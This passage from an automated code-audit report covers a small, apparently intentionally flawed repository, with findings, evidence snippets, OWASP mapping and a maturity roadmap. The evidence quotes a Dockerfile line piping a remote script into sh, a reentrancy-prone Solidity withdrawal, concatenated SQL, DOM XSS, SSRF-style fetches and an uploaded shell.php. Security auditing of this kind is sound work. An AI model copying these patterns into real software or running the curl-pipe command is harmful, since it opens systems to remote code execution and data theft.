(no assert/expect/verify found)
```

#### TST-004 · medium · iOS: UI tests exist but production code sets no accessibilityIdentifier

- **Location:** `mobile/ios/AppUITests/LoginUITests.swift:1`  ·  **Type:** test_gap/flaky  ·  **Effort:** 90 min

**Evidence:**
```
1 text-based queries
```

#### TST-005 · medium · iOS: 1 sleep/asyncAfter calls in tests (flaky)

- **Location:** `mobile/ios/AppUITests/LoginUITests.swift:3`  ·  **Type:** test_gap/flaky  ·  **Effort:** 6 min

**Evidence:**
```
mobile/ios/AppUITests/LoginUITests.swift:3
```

#### TST-006 · medium · Front-end has no unit/component test runner (Vitest/Jest/Karma)

- **Location:** `package.json:1`  ·  **Type:** test_gap/test-infra  ·  **Effort:** 90 min

**Evidence:**
```
3 UI source files, no runner in package.json
```

#### TST-007 · medium · package.json has no working `test` script

- **Location:** `package.json:1`  ·  **Type:** test_gap/test-infra  ·  **Effort:** 5 min

**Evidence:**
```
scripts.test missing or placeholder
```

#### TST-008 · medium · Test file `tests/test_app.py` defines tests but contains no assertions

- **Location:** `tests/test_app.py:1`  ·  **Type:** test_gap/test-quality  ·  **Effort:** 20 min

**Evidence:**
```
(no assert/expect/verify found)
```

#### TST-009 · medium · Fixed sleeps in tests: 2 occurrence(s) in 1 file(s)

- **Location:** `web/tests/checkout.spec.ts:4`  ·  **Type:** test_gap/flaky  ·  **Effort:** 8 min

**Evidence:**
```
web/tests/checkout.spec.ts:2
```

#### A11-003 · low · <html> without lang attribute

- **Location:** `web/index.html:2`  ·  **Type:** bug/a11y  ·  **Effort:** 2 min

**Evidence:**
```
<!doctype html>
<html>
<head>
```

#### BUG-011 · low · Mutable default argument that is mutated or leaked

- **Location:** `backend/app.py:53`  ·  **Type:** bug/logic  ·  **CWE:** CWE-665  ·  **Effort:** 10 min

**Evidence:**
```
def add(x, acc=[]):
```

#### COD-006 · low · No formatter / .editorconfig configured

- **Location:** `.:1`  ·  **Type:** code_smell/standards  ·  **Effort:** 20 min

**Evidence:**
```
(no prettier/black/gofmt-style config or .editorconfig)
```

#### COD-007 · low · Public API documentation coverage is 0.0% (target 60%)

- **Location:** `.:1`  ·  **Type:** code_smell/documentation  ·  **Effort:** 15 min

**Evidence:**
```
php 0% (0/2), js 0% (0/1), Python 0% (0/14), swift 0% (0/3), kt 0% (0/1)
```

#### COD-008 · low · Foreign keys declared but PRAGMA foreign_keys is OFF by default

- **Location:** `app.db:1`  ·  **Type:** code_smell/database  ·  **Effort:** 10 min

**Evidence:**
```
PRAGMA foreign_keys = 0
```

#### COD-009 · low · Public API under-documented in `backend/app.py` (0/12)

- **Location:** `backend/app.py:1`  ·  **Type:** code_smell/documentation  ·  **Effort:** 36 min

**Evidence:**
```
0/12 documented (0%). Missing: (module):1, users:9, search:16, ping:23, fetch:29, go:34, file:38, load:42
```

#### COD-010 · low · Empty catch/except (swallowed error)

- **Location:** `backend/app.py:62`  ·  **Type:** code_smell/error-handling  ·  **CWE:** CWE-390  ·  **OWASP:** A09:2021  ·  **Effort:** 10 min

**Evidence:**
```
except Exception:
```

#### COD-011 · low · Personal machine path hardcoded: /Users/ana/

- **Location:** `backend/billing.py:1`  ·  **Type:** code_smell/hardcode  ·  **CWE:** CWE-200  ·  **Effort:** 10 min

**Evidence:**
```
CONFIG = '/Users/ana/Desktop/data.csv'
```

#### COD-012 · low · Floating pragma (^0.8.0): deployed bytecode may differ from what was audited

- **Location:** `contracts/Vault.sol:1`  ·  **Type:** code_smell/smart-contract  ·  **CWE:** CWE-1104  ·  **Effort:** 5 min

**Evidence:**
```
pragma solidity ^0.8.0;
```

#### COD-013 · low · Table `orders` uses MyISAM

- **Location:** `db/schema.sql:2`  ·  **Type:** code_smell/database  ·  **Effort:** 20 min

**Evidence:**
```
ENGINE=MyISAM
```

#### COD-014 · low · 1 FIXME/HACK marker(s) in api_client.js

- **Location:** `web/api_client.js:4`  ·  **Type:** code_smell/todo  ·  **Effort:** 10 min

**Evidence:**
```
L4 FIXME: race condition when two requests arrive
```

#### DEP-001 · low · `package.json` has no lockfile

- **Location:** `package.json:1`  ·  **Type:** dependency/supply-chain  ·  **CWE:** CWE-1104  ·  **OWASP:** A06:2021, A08:2021  ·  **Effort:** 5 min

**Evidence:**
```
(missing lockfile)
```

#### DEP-002 · low · `web/package.json` has no lockfile

- **Location:** `web/package.json:1`  ·  **Type:** dependency/supply-chain  ·  **CWE:** CWE-1104  ·  **OWASP:** A06:2021, A08:2021  ·  **Effort:** 5 min

**Evidence:**
```
(missing lockfile)
```

#### PER-001 · low · Foreign key `orders.user_id` without index

- **Location:** `app.db:1`  ·  **Type:** performance/database  ·  **Effort:** 10 min

**Evidence:**
```
FOREIGN KEY(user_id) REFERENCES users
```

#### PER-002 · low · Foreign key `orders.user_id` without index

- **Location:** `db/schema.sql:2`  ·  **Type:** performance/database  ·  **Effort:** 10 min

**Evidence:**
```
FOREIGN KEY (user_id) ...
```

#### SEO-006 · low · Pages without canonical link (1 of 1 HTML pages)

- **Location:** `web/index.html:1`  ·  **Type:** code_smell/seo  ·  **Effort:** 5 min

**Evidence:**
```
web/index.html
```

#### SEO-007 · low · Pages with zero or multiple <h1> (1 of 1 HTML pages)

- **Location:** `web/index.html:1`  ·  **Type:** code_smell/seo  ·  **Effort:** 5 min

**Evidence:**
```
web/index.html(2)
```

#### SEO-008 · low · Pages missing Open Graph title/image (1 of 1 HTML pages)

- **Location:** `web/index.html:1`  ·  **Type:** code_smell/seo  ·  **Effort:** 5 min

**Evidence:**
```
web/index.html
```

#### SEO-009 · low · Pages with ≥3 images lacking width/height (layout shift) (1 of 1 HTML pages)

- **Location:** `web/index.html:1`  ·  **Type:** code_smell/seo  ·  **Effort:** 5 min

**Evidence:**
```
web/index.html(4)
```

#### SEO-010 · low · Pages with render-blocking <script> (no async/defer) (1 of 1 HTML pages)

- **Location:** `web/index.html:1`  ·  **Type:** code_smell/seo  ·  **Effort:** 5 min

**Evidence:**
```
web/index.html(1)
```

#### TST-010 · low · iOS: code coverage not enabled in scheme/test plan

- **Location:** `.:1`  ·  **Type:** test_gap/test-infra  ·  **Effort:** 10 min

**Evidence:**
```
(see location)
```

#### TST-011 · low · No Slither/Echidna/Medusa/Certora in CI

- **Location:** `.:1`  ·  **Type:** test_gap/test-infra  ·  **Effort:** 90 min

**Evidence:**
```
(see location)
```

#### TST-012 · low · iOS: 1 UI test file(s) do not set continueAfterFailure = false

- **Location:** `mobile/ios/AppUITests/LoginUITests.swift:1`  ·  **Type:** test_gap/flaky  ·  **Effort:** 2 min

**Evidence:**
```
(see location)
```

#### COD-015 · info · Cursor configuration committed: .cursor

- **Location:** `.cursor/rules/style.mdc:1`  ·  **Type:** code_smell/ai-trace  ·  **Effort:** 5 min

**Evidence:**
```
1 tracked file(s): .cursor/rules/style.mdc
```

#### COD-016 · info · Claude Code configuration committed: CLAUDE.md

- **Location:** `CLAUDE.md:1`  ·  **Type:** code_smell/ai-trace  ·  **Effort:** 5 min

**Evidence:**
```
1 tracked file(s): CLAUDE.md
```

#### COD-017 · info · Comment reveals AI-assisted authoring

- **Location:** `backend/utils_ai.py:1`  ·  **Type:** code_smell/ai-trace  ·  **Effort:** 2 min

**Evidence:**
```
# Generated by ChatGPT
```

#### SEO-011 · info · robots.txt does not reference the sitemap

- **Location:** `web/public/robots.txt:1`  ·  **Type:** code_smell/seo  ·  **Effort:** 2 min

**Evidence:**
```
(see location)
```

<a id="revision"></a>
## Needs review / validation (31)

#### SEO-012 · high · Client-side-rendered SPA without SSR/prerender (crawlers see an empty shell)

- **Location:** `.:1`  ·  **Type:** security_hotspot/seo  ·  **Effort:** 480 min

**Evidence:**
```
index.html + react/vue without next/nuxt/astro/sveltekit
```

**Review reason:** Google can render JS but later and less reliably; other engines/social bots often cannot. Skip if the app is behind login only

#### HOT-001 · high · Mass assignment / over-posting

- **Location:** `app/Http/UserController.php:8`  ·  **Type:** security_hotspot/authz  ·  **CWE:** CWE-915  ·  **OWASP:** A01:2021, API3:2023  ·  **Effort:** 15 min

**Evidence:**
```
$u = User::findOrFail($request->id);
    User::create($request->all());
    if ($password == $stored) { return true; }
```

**Review reason:** heuristic match - review context

#### HOT-002 · high · Client-controlled size/limit without cap

- **Location:** `backend/app.py:47`  ·  **Type:** security_hotspot/resource-exhaustion  ·  **CWE:** CWE-770  ·  **OWASP:** A04:2021, API4:2023  ·  **Effort:** 10 min

**Evidence:**
```
def page():
    per_page = int(request.args.get("per_page", 20))
    return str(per_page)
```

**Review reason:** heuristic match - review context

#### HOT-003 · high · Solidity delegatecall / selfdestruct / low-level call

- **Location:** `contracts/Vault.sol:14`  ·  **Type:** security_hotspot/smart-contract  ·  **CWE:** CWE-829  ·  **Effort:** 60 min

**Evidence:**
```
require(balances[msg.sender] >= amt, "no funds");
        (bool ok, ) = msg.sender.call{value: amt}("");
        balances[msg.sender] -= amt;
```

**Review reason:** heuristic match - review context

#### HOT-004 · high · Framework raw-HTML escape hatch

- **Location:** `frontend/src/App.jsx:5`  ·  **Type:** security_hotspot/xss  ·  **CWE:** CWE-79  ·  **OWASP:** A03:2021  ·  **Effort:** 15 min

**Evidence:**
```
console.log('login', user.password);
  return <div dangerouslySetInnerHTML={{ __html: html }} />;
}
```

**Review reason:** heuristic match - review context

#### HOT-005 · high · Terraform/cloud over-exposure

- **Location:** `infra/main.tf:1`  ·  **Type:** security_hotspot/misconfiguration  ·  **CWE:** CWE-284, CWE-732  ·  **OWASP:** A05:2021, A01:2021  ·  **Effort:** 20 min

**Evidence:**
```
resource "aws_security_group_rule" "db" { cidr_blocks = ["0.0.0.0/0"] from_port = 5432 }
```

**Review reason:** heuristic match - review context

#### HOT-006 · high · SQL built with concatenation (Java/Kotlin/Android)

- **Location:** `mobile/android/app/src/main/Main.kt:1`  ·  **Type:** security_hotspot/sqli  ·  **CWE:** CWE-89  ·  **OWASP:** A03:2021  ·  **Effort:** 20 min

**Evidence:**
```
class Main { fun f(w: WebView, prefs: SharedPreferences) { w.settings.setJavaScriptEnabled(true); prefs.edit().putString("token", t).apply(); db.rawQuery("SELECT * FROM u WHERE n='" + name + "'", null
```

**Review reason:** pattern is dangerous but no user-input source was found nearby - confirm the value's origin

#### HOT-007 · high · Web framework detected (express) but no rate limiting/throttling found anywhere

- **Location:** `package.json:1`  ·  **Type:** security_hotspot/resource-exhaustion  ·  **CWE:** CWE-770, CWE-307  ·  **OWASP:** A04:2021, API4:2023  ·  **Effort:** 60 min

**Evidence:**
```
(no rate-limit library/middleware/nginx limit_req found in code or config)
```

**Review reason:** rate limiting may exist at the edge (CDN/WAF/gateway/ingress) which is outside the repository - confirm with the infrastructure owner

#### HOT-008 · high · TODO says security work is still missing: auth

- **Location:** `web/api_client.js:3`  ·  **Type:** security_hotspot/todo  ·  **CWE:** CWE-1059  ·  **Effort:** 30 min

**Evidence:**
```
// TODO: add auth check before deleting users
```

**Review reason:** Heuristic: confirm it is not an intentional default or a documented exception.

#### HOT-009 · high · Authorization depends on a literal user id

- **Location:** `web/api_client.js:7`  ·  **Type:** security_hotspot/hardcode  ·  **CWE:** CWE-798, CWE-285  ·  **Effort:** 30 min

**Evidence:**
```
const isAdmin = (user.id === 1);
```

**Review reason:** Heuristic: confirm it is not an intentional default or a documented exception.

#### HOT-010 · high · Server-side script stored in an upload/cache/media folder

- **Location:** `web/uploads/shell.php:1`  ·  **Type:** security_hotspot/malware  ·  **CWE:** CWE-434, CWE-506  ·  **OWASP:** A08:2021  ·  **Effort:** 30 min

**Evidence:**
```
web/uploads/shell.php
```

**Review reason:** Specific malicious pattern; read the code and confirm it is not intentional (security tool, test, documentation).

#### HOT-011 · medium · Environment file `.env` present - ensure it is git-ignored and not web-served

- **Location:** `.env:1`  ·  **Type:** security_hotspot/secrets  ·  **Effort:** 5 min

**Evidence:**
```
2 variable(s) defined
```

**Review reason:** not tracked by git, but verify deployment does not publish it

#### HOT-012 · medium · Dockerfile weakness

- **Location:** `Dockerfile:1`  ·  **Type:** security_hotspot/misconfiguration  ·  **CWE:** CWE-250, CWE-829  ·  **OWASP:** A05:2021, A08:2021  ·  **Effort:** 10 min

**Evidence:**
```
FROM node:latest
RUN curl http://x.sh | sh
```

**Review reason:** heuristic match - review context

#### HOT-013 · medium · `Dockerfile` never switches to a non-root USER

- **Location:** `Dockerfile:1`  ·  **Type:** security_hotspot/misconfiguration  ·  **CWE:** CWE-250  ·  **OWASP:** A05:2021  ·  **Effort:** 10 min

**Evidence:**
```
(no USER instruction)
```

**Review reason:** container runs as root by default

#### HOT-014 · medium · Dockerfile weakness

- **Location:** `Dockerfile:2`  ·  **Type:** security_hotspot/misconfiguration  ·  **CWE:** CWE-250, CWE-829  ·  **OWASP:** A05:2021, A08:2021  ·  **Effort:** 10 min

**Evidence:**
```
FROM node:latest
RUN curl http://x.sh | sh
COPY . /app
```

**Review reason:** heuristic match - review context

#### PER-003 · medium · Query inside a loop (possible N+1)

- **Location:** `backend/app.py:59`  ·  **Type:** performance/n+1  ·  **CWE:** CWE-1073  ·  **Effort:** 30 min

**Evidence:**
```
for it in items:
        row = sqlite3.connect("db/app.db").execute("SELECT * FROM t WHERE id = ?", (it,)).fetchone()
```

**Review reason:** a data-access call appears within 6 lines of a loop header - confirm the loop iterates over many rows

#### HOT-015 · medium · Debug mode enabled

- **Location:** `backend/app.py:66`  ·  **Type:** security_hotspot/misconfiguration  ·  **CWE:** CWE-489, CWE-209  ·  **OWASP:** A05:2021  ·  **Effort:** 5 min

**Evidence:**
```
if __name__ == "__main__":
    app.run(debug=True)
```

**Review reason:** heuristic match - review context

#### HOT-016 · medium · Permissive CORS (*)

- **Location:** `backend/server.js:3`  ·  **Type:** security_hotspot/misconfiguration  ·  **CWE:** CWE-942  ·  **OWASP:** A05:2021, API8:2023  ·  **Effort:** 10 min

**Evidence:**
```
const app = express();
app.use(require('cors')({ origin: '*' }));
app.get('/hello', (req, res) => { res.send('<h1>Hello ' + req.query.name + '</h1>'); });
```

**Review reason:** heuristic match - review context

#### COD-018 · medium · Leftover AI placeholder comment (possible truncated code)

- **Location:** `backend/utils_ai.py:2`  ·  **Type:** code_smell/ai-trace  ·  **Effort:** 10 min

**Evidence:**
```
# ... rest of the code remains the same
```

**Review reason:** Heuristic match - confirm the value's origin and reachability.

#### HOT-017 · medium · Token/password in insecure local storage

- **Location:** `frontend/src/App.jsx:3`  ·  **Type:** security_hotspot/mobile  ·  **CWE:** CWE-312  ·  **OWASP:** M9:2024  ·  **Effort:** 30 min

**Evidence:**
```
useEffect(() => { document.getElementById('x').innerHTML = location.hash; }, []);
  localStorage.setItem('token', user.token);
  console.log('login', user.password);
```

**Review reason:** heuristic match - review context

#### HOT-018 · medium · Android: backup / exported component

- **Location:** `mobile/android/app/src/main/AndroidManifest.xml:2`  ·  **Type:** security_hotspot/mobile  ·  **CWE:** CWE-200, CWE-926  ·  **OWASP:** M8:2024  ·  **Effort:** 10 min

**Evidence:**
```
<manifest xmlns:android="http://schemas.android.com/apk/res/android">
  <application android:debuggable="true" android:allowBackup="true" android:usesCleartextTraffic="true">
    <activity android:name=".Main" android:exported="true"/>
```

**Review reason:** heuristic match - review context

#### HOT-019 · medium · Android: backup / exported component

- **Location:** `mobile/android/app/src/main/AndroidManifest.xml:3`  ·  **Type:** security_hotspot/mobile  ·  **CWE:** CWE-200, CWE-926  ·  **OWASP:** M8:2024  ·  **Effort:** 10 min

**Evidence:**
```
<application android:debuggable="true" android:allowBackup="true" android:usesCleartextTraffic="true">
    <activity android:name=".Main" android:exported="true"/>
  </application>
```

**Review reason:** heuristic match - review context

#### HOT-020 · medium · WebView risk (JS enabled / bridge / file access)

- **Location:** `mobile/android/app/src/main/Main.kt:1`  ·  **Type:** security_hotspot/mobile  ·  **CWE:** CWE-749, CWE-79  ·  **OWASP:** M4:2024  ·  **Effort:** 20 min

**Evidence:**
```
class Main { fun f(w: WebView, prefs: SharedPreferences) { w.settings.setJavaScriptEnabled(true); prefs.edit().putString("token", t).apply(); db.rawQuery("SELECT * FROM u WHERE n='" + name + "'", null
```

**Review reason:** heuristic match - review context

#### HOT-021 · medium · Token/password in insecure local storage

- **Location:** `mobile/android/app/src/main/Main.kt:1`  ·  **Type:** security_hotspot/mobile  ·  **CWE:** CWE-312  ·  **OWASP:** M9:2024  ·  **Effort:** 30 min

**Evidence:**
```
class Main { fun f(w: WebView, prefs: SharedPreferences) { w.settings.setJavaScriptEnabled(true); prefs.edit().putString("token", t).apply(); db.rawQuery("SELECT * FROM u WHERE n='" + name + "'", null
```

**Review reason:** heuristic match - review context

#### HOT-022 · medium · No automated accessibility testing (axe / jsx-a11y / Lighthouse)

- **Location:** `package.json:1`  ·  **Type:** security_hotspot/a11y  ·  **Effort:** 60 min

**Evidence:**
```
no axe-core, jest-axe, @axe-core/playwright, pa11y or eslint a11y plugin
```

**Review reason:** a11y may be audited manually or by an external tool - confirm

#### COD-019 · medium · localhost URL hardcoded at a call site

- **Location:** `web/api_client.js:1`  ·  **Type:** code_smell/hardcode  ·  **Effort:** 15 min

**Evidence:**
```
const r = await fetch('http://localhost:3000/api/users');
```

**Review reason:** Heuristic: confirm it is not an intentional default or a documented exception.

#### COD-020 · medium · IP address hardcoded as a host: 10.0.3.17

- **Location:** `web/api_client.js:6`  ·  **Type:** code_smell/hardcode  ·  **Effort:** 20 min

**Evidence:**
```
const host = { server: '10.0.3.17' };
```

**Review reason:** Heuristic: confirm it is not an intentional default or a documented exception.

#### A11-004 · medium · <input> without id/aria-label (cannot have an associated label)

- **Location:** `web/index.html:15`  ·  **Type:** bug/a11y  ·  **Effort:** 5 min

**Evidence:**
```
<a href="https://partner.example" target="_blank">partner</a>
<input type="text">
</body>
```

**Review reason:** heuristic match - review context

#### HOT-023 · low · Outbound HTTP call without timeout

- **Location:** `backend/app.py:31`  ·  **Type:** security_hotspot/resource-exhaustion  ·  **CWE:** CWE-400  ·  **OWASP:** A04:2021  ·  **Effort:** 5 min

**Evidence:**
```
url = request.args.get("url")
    return requests.get(url).text
```

**Review reason:** heuristic match - review context

#### COD-021 · low · Business rate hardcoded in a function: tax_rate

- **Location:** `backend/billing.py:3`  ·  **Type:** code_smell/hardcode  ·  **Effort:** 20 min

**Evidence:**
```
tax_rate = 0.21
```

**Review reason:** Heuristic: confirm it is not an intentional default or a documented exception.

#### COD-022 · low · Environment-specific host hardcoded: api-staging.myapp.com

- **Location:** `web/api_client.js:2`  ·  **Type:** code_smell/hardcode  ·  **Effort:** 15 min

**Evidence:**
```
const st = await fetch('https://api-staging.myapp.com/v1/orders');
```

**Review reason:** Heuristic: confirm it is not an intentional default or a documented exception.

## OWASP coverage

| Standard | ID | Category | Status | Findings |
|---|---|---|---|---|
| OWASP Top 10:2021 | A01 | Broken Access Control | fail | SEC-014, SEC-021, SEC-027, SEC-034, SEC-040, HOT-001 |
| OWASP Top 10:2021 | A02 | Cryptographic Failures | fail | SEC-001, SEC-006, SEC-022, SEC-041, SEC-043 |
| OWASP Top 10:2021 | A03 | Injection | fail | SEC-002, SEC-003, SEC-005, SEC-012, SEC-013, SEC-017 |
| OWASP Top 10:2021 | A04 | Insecure Design | fail | SEM-001, HOT-002, HOT-007, HOT-023 |
| OWASP Top 10:2021 | A05 | Security Misconfiguration | fail | SEC-039, HOT-005, HOT-012, HOT-013, HOT-014, HOT-015 |
| OWASP Top 10:2021 | A06 | Vulnerable & Outdated Components | fail | DEP-001, DEP-002 |
| OWASP Top 10:2021 | A07 | Identification & Authentication Failures | fail | SEC-015, SEC-016, SEC-026, SEC-035, BUG-006 |
| OWASP Top 10:2021 | A08 | Software & Data Integrity Failures | fail | SEC-004, SEC-008, SEC-009, SEC-010, SEC-011, SEC-028 |
| OWASP Top 10:2021 | A09 | Logging & Monitoring Failures | fail | SEC-044, COD-010 |
| OWASP Top 10:2021 | A10 | Server-Side Request Forgery | fail | SEC-020 |
| OWASP API Top 10:2023 | API1 | Broken Object Level Authorization | fail | SEC-014, SEC-027 |
| OWASP API Top 10:2023 | API3 | Broken Object Property Level Authorization | review | HOT-001 |
| OWASP API Top 10:2023 | API4 | Unrestricted Resource Consumption | review | HOT-002, HOT-007 |
| OWASP API Top 10:2023 | API7 | SSRF | fail | SEC-020 |
| OWASP API Top 10:2023 | API8 | Security Misconfiguration | review | HOT-016 |
| OWASP Mobile Top 10:2024 | M* | Mobile findings | fail | SEC-037, BUG-001, HOT-017, HOT-018, HOT-019, HOT-020 |

<a id="cobertura"></a>
## Audit coverage

| Unit | Pass | State | Note |
|---|---|---|---|
| source scan (regex + taint look-back) | audit-security,audit-bugs | covered | 32 files; truncated rules: none |
| documentation / standards / architecture | audit-code | covered | strictness=standard |
| test-suite analysis (static) | audit-quality | covered | file-name matching; coverage % not measured unless --run-tests |
| QA front-end + mobile (static) | audit-qa,audit-mobile-qa | covered | mobile=android, ios |
| static SEO / SEM | audit-seo | covered | templates, robots, sitemap, metadata, tracking/consent |
| repository hygiene (keys, history, CI/CD) | audit-security | covered | sensitive files in git/history, remote credentials, workflow security, SECURITY.md/CODEOWNERS/dependabot/secre |
| malware & backdoor indicators | audit-security | covered | webshells, reverse shells, decode-and-execute, miners, stealers, install hooks, persistence, polyglots, Trojan |
| version advisories (OSV · CISA KEV · NVD · endoflife.date) | audit-security | covered | dependency CVEs by locked version, runtime/framework end-of-life, CVEs of the exact runtime, recent actively e |
| hardcode & TODOs | audit-quality | covered | TODO/FIXME/HACK (age via git blame), security TODOs, remove-before-prod markers, stubs, environment URLs, IPs, |
| AI traces (project finish) | audit-docs | covered | AI comments/docs, agent & spec files, git trailers, provenance metadata, invisible characters |
| crypto / web3 heuristics | audit-security | covered | Solidity, Anchor/Solana, dApp patterns |
| live database app.db | audit-security | covered | 2 tables |
| external scanners | audit-security | deferred | not requested (--tools) |
| test execution | audit-bugs | deferred | not requested (--run-tests) |
| live SEO crawl | audit-seo | deferred | no --url |
| manual-style review (auth flows, business logic, IDOR beyond lookups) | audit-security | deferred | use the Claude skills (/audit) on top of this CLI baseline |

### Metrics

| Metric | Value |
|---|---|
| tool | PN-Ultra-Audit |
| tool_version | 1.0.30 |
| strictness | standard |
| duplication.percent | 0.0 |
| duplication.duplicated_lines | 0 |
| duplication.top_pairs | 0 items |
| duplication.method | 8-line window hash |
| ncloc | 140 |
| files | 32 |
| frameworks | express |
| skipped_files.binary/lock/min | 1 |
| complexity.method | AST (python) / brace-matching (others) |
| complexity.max_file_branches | 7 |
| docstrings.public_symbols | 21 |
| docstrings.documented | 0 |
| docstrings.percent | 0.0 |
| docstrings.by_language.php.public | 2 |
| docstrings.by_language.php.documented | 0 |
| docstrings.by_language.js.public | 1 |
| docstrings.by_language.js.documented | 0 |
| docstrings.by_language.Python.public | 14 |
| docstrings.by_language.Python.documented | 0 |
| docstrings.by_language.swift.public | 3 |
| docstrings.by_language.swift.documented | 0 |
| docstrings.by_language.kt.public | 1 |
| docstrings.by_language.kt.documented | 0 |
| docstrings.target | 60 |
| py_type_hints.percent | 0.0 |
| py_type_hints.functions | 13 |
| cycles | 0 |
| oversized_function_files | 0 |
| profile_limits.fn_len | 60 |
| profile_limits.cc | 15 |
| profile_limits.params | 6 |
| profile_limits.nest | 4 |
| tests.test_files | 3 |
| tests.test_cases | 4 |
| tests.test_ncloc | 19 |
| tests.src_ncloc | 121 |
| tests.test_ratio | 0.157 |

## Architecture

**Style:** modular monolith, layered (presentation → services → data)



## Professional full-stack roadmap

**Level 1/5 - Getting started** (score 26/100). Prototype: it runs on your machine. 4 points to **Foundations**.



| Dimension | Practice | Status | Why it matters | How |
|---|---|---|---|---|
| Foundations | Project is under Git with a .gitignore | ❌ | Without Git you cannot undo mistakes or collaborate; without .gitignore you commit junk and secrets. | git init; add a .gitignore for your stack (run `--scaffold`); commit small and often with clear messages. |
| Foundations | README explains how to install, run and test | ❌ | Future-you (and teammates) will forget how it works in a month. | Write purpose, requirements, install, run, test, env vars. `--scaffold` creates a skeleton. |
| Foundations | Configuration lives in env vars with a documented .env.example | ✅ |  |  |
| Foundations | Dependencies are locked (lockfile committed) | ❌ | Unlocked versions make builds unrepeatable and open supply-chain risks. | Commit the lockfile (npm i / composer install / poetry lock). |
| Security | No secrets in the code or git history | ❌ | Anyone with the repo can use leaked keys; git remembers forever. | Rotate leaked keys, move them to env vars/secret manager, add gitleaks to pre-commit. |
| Security | No critical/high security findings | ❌ | Critical issues are exploitable in minutes. | Fix in the dashboard's Start here order; one change + one test each. |
| Security | No SQL/command injection or XSS patterns | ❌ | Injection is the classic way apps get fully compromised. | Parameterize queries, avoid shell, escape output (see each finding's steps). |
| Security | Object access is checked per user (no IDOR / mass assignment) | ❌ | Without ownership checks one user can read another's data. | Scope every lookup by the current user/tenant; use allowlists for model fields. |
| Security | Uses a proven auth library/framework (not hand-rolled) | ❌ | Hand-made login/session code is the #1 source of auth bugs. | Adopt your framework's auth or a managed provider; never store plain passwords. |
| Security | Input is validated with a schema library | ❌ | Unvalidated input causes crashes and security bugs. | Validate every request body/query with a schema (zod/pydantic/FormRequest). |
| Security | Security headers and CORS are configured | ❌ | Headers/CORS stop whole classes of browser attacks. | Add helmet (Node) / SecurityMiddleware+CSP (Django) / secure headers; allowlist CORS origins. |
| Security | Rate limiting protects login and expensive endpoints | ❌ | Without it, bots can brute-force logins and take your server down. | Add rate limiting at the edge (nginx/CDN) and in the app for auth routes. |
| Security | TLS verification is never disabled | ✅ |  |  |
| Security | Passwords use argon2/bcrypt (never MD5/SHA-1/plain) | ❌ | A DB leak would expose real passwords. | Use the framework's password hasher (argon2id/bcrypt). |
| Security | Smart contracts follow checks-effects-interactions & access control | ❌ | On-chain bugs lose funds irreversibly. | Use OpenZeppelin, nonReentrant, access control; fuzz with Foundry; get an audit. |
| Quality | Automated tests exist | ✅ |  |  |
| Quality | Tests cover the important modules (auth, payments, data) | ✅ |  |  |
| Quality | End-to-end tests cover the critical user journeys | ✅ |  |  |
| Quality | Linter + formatter are configured | ❌ | They catch bugs and end style arguments automatically. | ESLint+Prettier / ruff / phpcs+pint / golangci-lint; run in CI. |
| Quality | Static typing is on (TS strict / type hints / PHPStan) | ✅ |  |  |
| Quality | Tests are reliable (no sleeps, no un-awaited asserts) | ❌ | Flaky tests teach you to ignore CI. | Replace sleeps with auto-waiting assertions; always await expect(). |
| Quality | Errors are not silently swallowed | ❌ | Hidden errors turn into mystery bugs. | Log or re-throw; catch the narrowest exception. |
| Delivery | CI runs lint, types and tests on every change | ❌ | Automation stops broken code reaching users. | Add a GitHub Actions workflow (`--scaffold` creates one). |
| Delivery | App is containerized or has a reproducible deploy | ✅ |  |  |
| Delivery | Container hardening basics (non-root, pinned tag) | ✅ |  |  |
| Delivery | Dependencies are scanned for known vulnerabilities | ❌ | Old libraries are the easiest way in. | Enable Dependabot/Renovate and `npm audit`/`pip-audit` in CI. |
| Delivery | Pre-commit hooks (format, lint, secret scan) | ❌ | Catches problems before they are committed. | pre-commit with gitleaks + formatter (`--scaffold` creates the file). |
| Data | Database changes use migrations | ❌ | Hand-edited databases drift and cannot be reproduced. | Use your ORM's migrations (Prisma/Alembic/Laravel/Rails). |
| Data | Tables have primary keys and indexed foreign keys | ❌ | Missing keys/indexes cause slow queries and duplicate data. | Add PRIMARY KEY, index every foreign key, DECIMAL for money. |
| Data | No obvious N+1 query patterns | ✅ |  |  |
| Operations | Structured logging library is used | ❌ | Logs are your eyes in production. | Use a logger with levels (not print/console.log); never log secrets. |
| Operations | Error tracking / APM is installed (Sentry, OpenTelemetry…) | ❌ | You should learn about crashes before your users tell you. | Add Sentry (free tier) to backend and frontend. |
| Operations | Debug mode is off by default for production | ✅ |  |  |
| Craft | Public code is documented (docstrings / JSDoc) | ❌ | Docs make code understandable and AI assistants more accurate. | Document public functions: what, params, returns, errors. |
| Craft | No circular dependencies; layers are respected | ✅ |  |  |
| Craft | Functions and files are small and focused | ✅ |  |  |
| Craft | Architecture/decisions are written down | ❌ | Teammates (and you) need the 'why'. | docs/architecture.md with a diagram + ADRs for key choices. |
| Craft | API is described (OpenAPI/GraphQL schema) | ❌ | Contracts keep frontend, backend and tests in sync. | Generate OpenAPI from your framework and commit it. |
| Experience | Accessible markup (alt text, labels, keyboard) | ❌ | 15% of people have a disability; it is also a legal requirement in many places. | Use real <button>/<a>, alt text, labels; test with axe. |
| Experience | SEO basics (title, description, sitemap, robots) | ❌ | Search engines can't rank what they can't understand. | Unique title/description per page, sitemap.xml, robots.txt. |
| Experience | Tracking has user consent (GDPR/ePrivacy) | ❌ | Tracking before consent is a legal risk. | Add a consent banner + Google Consent Mode v2. |
| Experience | Mobile permissions and privacy strings are declared | ❌ | Missing keys crash iOS apps and fail store review. | Add NS…UsageDescription / uses-permission entries. |
| Experience | Performance budget / lightweight assets | ❌ | Slow pages lose users and rankings. | Compress images (AVIF/WebP), defer scripts, set LCP/CLS budgets. |

## Audit readiness (SOC 2, ISO 27001, HIPAA, GDPR, PCI DSS, NIST CSF, DORA, EU AI Act, WCAG)

> Readiness = share of automatically checkable controls with technical evidence in place. It is NOT a certification; manual controls (policies, training, vendors, physical) need organizational evidence.

| Framework | Readiness | Pass | Gap | Manual |
|---|---|---|---|---|
| SOC 2 | 0% | 0 | 11 | 3 |
| ISO/IEC 27001:2022 | 15% | 2 | 11 | 2 |
| GDPR / ePrivacy | 0% | 0 | 5 | 5 |
| NIST CSF 2.0 | 14% | 1 | 6 | 3 |
| WCAG 2.2 AA (VPAT / EN 301 549) | 43% | 3 | 4 | 1 |
| OWASP ASVS 4.0 (Level 2) | 8% | 1 | 12 | 0 |
| CIS Controls v8 (IG1/IG2) | 12% | 1 | 7 | 1 |



### SOC 2 - gaps to close

- **CC5.2** Technology general controls / secure SDLC: missing → CI runs lint, types and tests on every change; Linter + formatter are configured
